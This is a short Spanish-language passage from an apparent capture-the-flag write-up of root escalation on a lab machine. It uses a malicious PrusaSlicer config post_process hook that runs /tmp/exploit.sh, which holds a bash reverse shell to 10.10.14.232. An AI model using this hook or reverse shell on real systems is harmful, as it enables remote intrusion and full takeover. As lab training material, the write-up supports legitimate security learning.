```bash
```

El exploit esta en el archivo `Slic3r_PE.config` que es el que ejecuta codigo arbitrario

```bash
 cat Extracted/Metadata/Slic3r_PE.config | grep tmp
; post_process = "chmod +x /tmp/exploit.sh";"bash /tmp/exploit.sh"
```

El exploit le da permiso a un archivo /tmp/exploit.sh y lo ejecuta con bash

Modificamos exploit.sh y lo movemos a /tmp

```bash
adam@trickster:~/prusaslicer_exploit$ cat /tmp/exploit.sh 
/bin/bash -i >& /dev/tcp/10.10.14.232/2323 0>&1
```
### Root!
![[Pasted image 20250215133235.png]]